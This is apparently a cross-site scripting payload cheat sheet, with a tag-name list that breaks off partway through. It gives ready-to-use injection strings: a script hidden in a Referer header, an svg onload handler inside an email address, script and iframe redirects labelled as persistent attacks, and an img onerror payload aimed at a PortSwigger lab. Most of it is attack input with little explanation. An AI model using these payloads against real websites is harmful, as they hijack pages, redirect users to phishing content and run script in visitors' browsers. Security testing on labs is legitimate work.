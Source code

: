  Referer: https://google.com/?q=crawhacker"><script>alert(ashu)</script> 

# 😏 valid email
"<svg/onload=alert(1)>"@x.y

# 🤡 URL redirect
<script>document.location.href="https://google.com"</script>

<A HREF="https://google.com/">Login Here</A>

# 😮 Persistent xss attack
<iframe src="https://google.com" height="100%" width="100%"></iframe>
<script>window.location="http://www.vulnweb.com";</script>
<iframe src="https://ac751fe21f16ccffc0afd42b00520014.web-security-academy.net/#aasd" onload="this.src+='<img src=x onerror=print()>'"></iframe>
 
# All Tags
a
a2
abbr
acronym
address
applet
area
article
aside
audio
audio2
b
bdi
bdo
big
blink
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
content
custom tags
data
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
element
em